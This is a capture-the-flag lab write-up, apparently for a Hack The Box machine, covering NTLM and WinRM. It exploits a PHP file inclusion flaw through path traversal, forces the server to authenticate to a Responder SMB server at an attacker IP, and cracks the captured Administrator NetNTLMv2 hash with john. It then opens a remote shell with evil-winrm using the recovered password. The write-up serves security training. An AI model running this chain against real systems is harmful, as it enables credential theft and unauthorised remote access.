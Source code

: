 

### New Technology Lan Manager 

Microsoft employs NTLM (New Technology LAN Manager) & Kerberos for authentication services. This lab focuses on how a File Inclusion vulnerability on a webpage being served on a windows machine can be exploited to collect the NetNTLMv2 challenge of the user that is running the web server. We will use a utility called Responder to capture a NetNTLMv2 hash.

Windows Remote Management, or WinRM, is a Windows-native built-in remote management protocol that basically uses Simple Object Access Protocol to interact with remote computers and servers, as well as Operating Systems and applications. 

<u>WinRM allows the user to :</u>
	→ Remotely communicate and interface with hosts
	→ Execute commands remotely on systems that are not local to you but are network accessible.
	→ Monitor, manage and configure servers, operating systems and client machines from a remote location.

As a pentester, this means that if we can find credentials (typically username and password) for a user who has remote management privileges, we can potentially get a PowerShell shell on the host.

The website has redirected the browser to a new URL, and your host doesn't know how to find **unika.htb**. This webserver is employing name-based Virtual Hosting for serving the requests.

Name-Based Virtual hosting is a method for hosting multiple domain names (with separate handling of each name) on a single server. This allows one server to share its resources, such as memory and processor cycles, without requiring all the services to be used by the same hostname. The web server checks the domain name provided in the Host header field of the HTTP request and sends a response according to that.

```
echo "10.129.136.91   unika.htb" | sudo tee -a /etc/hosts
```

Adding this entry in the /etc/hosts file will enable the browser to resolve the hostname unika.htb to the corresponding IP address & thus make the browser include the HTTP header Host: unika.htb in every HTTP request that the browser sends to this IP address, which will make the server respond with the webpage for unika.htb.



#### File Inclusion Vulnerability

Dynamic websites include HTML pages on the fly using information from the HTTP request to include GET and POST parameters, cookies, and other variables. It is common for a page to "include" another page based on some of these parameters.

LFI or Local File Inclusion occurs when an attacker is able to get a website to include a file that was not intended to be an option for this application. A common example is when an application uses the path to a file as input. If the application treats this input as trusted, and the required sanitary checks are not performed on this input, then the attacker can exploit it by using the ../ string in the inputted file name and eventually view sensitive files in the local file system. In some limited cases, an LFI can lead to code execution as well.

RFI or Remote File Inclusion is similar to LFI but in this case it is possible for an attacker to load a remote file on the host using protocols like HTTP, FTP etc.

We test the page parameter to see if we can include files on the target system in the server response. One of the most common files that a penetration tester might attempt to access on a Windows machine to verify LFI is the hosts file :

```
WINDOWS\System32\drivers\etc\hosts
```

The ../ string is used to traverse back a directory, one at a time. Thus multiple ../ strings are included in the URL so that the file handler on the server traverses back to the base directory i.e. C:\.

```
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
```

The file inclusion, in this case, was made possible because in the backend the include() method of PHP is being used to process the URL parameter page for serving a different webpage for different languages. And because no proper sanitization is being done on this page parameter, we were able to pass malicious input and therefore view the internal system files. The  include statement takes all the text/code/markup that exists in the specified file and loads it into the memory, making it available for use.

NTLM is a collection of authentication protocols created by Microsoft. It is a challenge-response authentication protocol used to authenticate a client to a resource on an Active Directory domain.

The NTLM authentication process is done in the following way :

  1. The client sends the user name and domain name to the server.
  2. The server generates a random character string, referred to as the challenge.
  3. The client encrypts the challenge with the NTLM hash of the user password and sends it back to the server.
  4. The server retrieves the user password (or equivilent).
  5. The server uses the hash value retrieved from the security account database to encrypt the challenge string. The value is then compared to the value received from the client. If the values match, the client is authenticated.


A hash function is a one way function that takes any amount of data and returns a fixed size value. Typically, the result is referred to as a hash, digest, or fingerprint. They are used for storing passwords more securely, as there's no way to convert the hash directly back to the original data (though there are attacks to attempt to recover passwords from hashes, as we'll see later). So a server can store a hash of your password, and when you submit your password to the site, it hashes your input, and
compares the result to the hash in the database, and if they match, it knows you supplied the correct password.

An NTHash is the output of the algorithm used to store passwords on Windows systems in the SAM database and on domain controllers. An NTHash is often referred to as an NTLM hash or even just an NTLM, which is very misleading / confusing.

When the NTLM protocol wants to do authentication over the network, it uses a challenge / response model as described above. A NetNTLMv2 challenge / response is a string specifically formatted to include the challenge and response. This is often referred to as a NetNTLMv2 hash, but it's not actually a hash. Still, it is regularly referred to as a hash because we attack it in the same manner. You'll see
NetNTLMv2 objects referred to as NTLMv2, or even confusingly as NTLM.

In the PHP configuration file php.ini , "allow_url_include" wrapper is set to "Off" by default, indicating that PHP does not load remote HTTP or FTP URLs to prevent remote file inclusion attacks. However, even if allow_url_include and allow_url_fopen are set to "Off", PHP will not prevent the loading of SMB URLs. In our case, we can misuse this functionality to steal the NTLM hash.


Responder will set up a malicious SMB server. When the target machine attempts to perform the NTLM authentication to that server, Responder sends a challenge back for the server to encrypt with the user's password. When the server responds, Responder will use the challenge and the encrypted response to generate the NetNTLMv2. While we can't reverse the NetNTLMv2, we can try many different common passwords to see if any generate the same challenge-response, and if we find one, we know that is the password. This is often referred to as hash cracking.

Location of Responder.conf file -
	-> for default system install : /usr/share/responder/Responder.conf
	-> for github installation   : /installation_directory/Responder.conf

```bash
sudo responder -I {network_interface}
```


With the Responder server ready, we tell the server to include a resource from our SMB server by setting the page parameter as follows via the web browser.

```
http://unika.htb/?page=//{attacker_IP}/somefile
```

In this case, because we have the freedom to specify the address for the SMB share, we specify the IP address of our attacking machine. Now the server tries to load the resource from our SMB server, and Responder captures enough of that to get the NetNTLMv2.
```
echo "Administrator::DESKTOP-
H3OF232:1122334455667788:7E0A87A2CCB487AD9B76C7B0AEAEE133:0101000000000000005F3214B534D
801F0E8BB688484C96C0000000002000800420044004F00320001001E00570049004E002D004E0048004500
3800440049003400410053004300510004003400570049004E002D004E00480045003800440049003400410
05300430051002E00420044004F0032002E004C004F00430041004C0003001400420044004F0032002E004C
004F00430041004C0005001400420044004F0032002E004C004F00430041004C0007000800005F3214B534D
801060004000200000008003000300000000000000001000000002000000C2FAF941D04DCECC6A7691EA926
30A77E073056DA8C3F356D47C324C6D6D16F0A0010000000000000000000000000000000000009002000630
06900660073002F00310030002E00310030002E00310034002E00320035000000000000000000" >
hash.txt
```

The NetNTLMv2 includes both the challenge (random text) and the encrypted response. The hash type is automatically identified by the john command-line tool :

```
john -w=/usr/share/wordlists/rockyou.txt hash.txt

  -w : wordlist to use for cracking the hash
```

john will try each password from the given password list, encrypting the challenge with that password. If the result matches the response, then it knows it found the correct password. 

**5985/tcp WinRM for HTTP**

Because PowerShell isn't installed on Linux by default, we'll use a tool called Evil-WinRM which is made for this kind of scenario.

```
evil-winrm -i 10.129.136.91 -u administrator -p badminton
```
